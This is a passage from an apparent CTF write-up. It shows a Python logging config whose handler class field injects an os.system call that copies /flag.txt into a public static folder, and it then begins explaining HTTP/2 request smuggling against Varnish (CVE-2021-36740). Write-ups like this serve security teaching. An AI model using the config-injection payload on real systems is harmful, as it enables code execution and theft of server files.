 ```yaml
[loggers]
keys=root,simpleExample

[handlers]
keys=consoleHandler

[formatters]
keys=simpleFormatter

[logger_root]
level=DEBUG
handlers=consoleHandler

[logger_simpleExample]
level=DEBUG
handlers=consoleHandler
qualname=simpleExample
propagate=0

[handler_consoleHandler]
class=__import__('os').system('cat /flag.txt > /app/application/static/images/de5fb214024af96b9f49ace64886c5/payload_ca36a4c20fafe498f263')
level=DEBUG
formatter=simpleFormatter
args=(sys.stdout,)

[formatter_simpleFormatter]
format=%(asctime)s - %(name)s - %(levelname)s - %(message)s
```

I fired up my postman to execute that and here comes the flag !
![Flag](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608207/csaw/Flag_zjj7z6.png)

## Smuggling Mail

![Smuggling mail](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608179/csaw/smuggling-mail_kotgch.png)  

Going through the code, these are my findings:

- We got a **varnich** cache server.

![Smuggling-mail-varnish-conf](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608173/csaw/smuggling-mail-varnish-config_vlwtw8.png)  

- A **hitch** TLS proxy accepting HTTP/2 requests.
![smuggling-mail-hitch-conf](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608177/csaw/smuggling-mail-hitch-conf_t1dsbh.png)

A quick research on the **varnish** cache server and I found the **CVE-2021-36740**. Actually, the cache server which works as the "frontend" here passes the HTTP/2 to the backend which downgrades the request to HTTP/1 which will be handled as two requests. Yes, that's a H2.CL vulnerability also there is a cve that made me try to HTTP Smuggling exploit.
